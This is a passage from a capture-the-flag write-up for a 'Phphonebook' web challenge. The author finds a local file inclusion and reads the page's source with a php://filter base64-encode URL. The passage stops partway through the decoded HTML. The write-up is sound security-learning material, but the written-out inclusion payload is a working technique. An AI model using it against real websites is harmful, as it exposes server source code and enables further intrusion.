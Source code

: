 ![phphonebook](./assets/Nahamconctf/phonebook.jpg)

I then tried going to /index.php/?file=phphonebook.php and got the same page. I reaslised quickly that it was a local file inclusion, but spent too long trying to look for other files, like a flag.php, which doesnt exist. 

Eventually I realised / remmembered that I might be able to get the contents of phphonebook.php by using base64 encoding. 

```
http://jh2i.com:50002/index.php?file=php://filter/convert.base64-encode/resource=phphonebook.php
```

It works! This gives us the contents of phphonebook.php encoded in base64. 

Decoding it gives us the following code:

```php
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Phphonebook</title>
    <link href="main.css" rel="stylesheet">
  </head>

  <body class="bg">
    <h1 id="header"> Welcome to the Phphonebook </h1>

    <div id="im_container">

      <img src="book.jpg" width="50%" height="30%"/>

```